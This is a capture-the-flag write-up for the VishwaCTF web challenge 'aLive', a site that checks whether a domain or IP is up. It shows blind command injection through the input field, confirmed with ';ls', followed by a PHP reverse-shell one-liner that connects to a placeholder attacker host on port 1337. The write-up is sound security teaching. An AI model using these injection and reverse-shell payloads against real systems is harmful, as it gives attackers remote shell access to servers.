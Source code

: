 # **Writeup - VishwaCTF**

* Category **web** 
* Name **aLive** 
* Difficulty **Medium**


## Description

In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

<img width="1324" alt="image" src="https://user-images.githubusercontent.com/121932742/232243936-dce05fad-bcf9-43a6-a545-90b24288aacb.png">



## **Solution**

The proper method to solve this challenge was doing a **Blind Command Injection**.

![image](https://user-images.githubusercontent.com/121932742/232248816-cce317cd-807a-4d28-819a-66b9ae2b9629.png)

This is how the website functions 

Now lets try to play with it

![image](https://user-images.githubusercontent.com/121932742/232248852-8d8fc05b-850f-4fdf-aa32-4bc1dd4ac732.png)

FISHY!

Now this is a sign of a blind command injection, entering localhosts alone tells you that it is not active. But appending ;ls returns that it is active.

After inspecting the request I intercepted in burp suite I found this:
X-Powered-By: PHP/8.1.2–1ubuntu2.11

Which tells two things.
1- The OS is Ubuntu.
2- The website’s backend is PHP.
So I went to revshells.com and grabbed this reverse shell payload:

```php -r '$sock=fsockopen("ATTACKER.IP",1337);shell_exec("sh <&3 >&3 2>&3");'```

A nc listener is on as well as NGROK.
The final payload I sent to the web application is this:

```localhosts;php -r '$sock=fsockopen("ATTACKER.IP",1337);shell_exec("sh <&3 >&3 2>&3");```

![image](https://user-images.githubusercontent.com/121932742/232248650-06314a44-3ae8-4c64-8299-605317d9f6bb.png)




To print the flag, we can use the **cat** command or we can access to the directory (add /flag.txt to the URL). 

<img width="1030" alt="image" src="https://user-images.githubusercontent.com/121932742/232244112-9db4bf0c-79b4-4651-b9cd-5c950a6da4b2.png">


> **VishwaCTF{b1inD_cmd-i}**
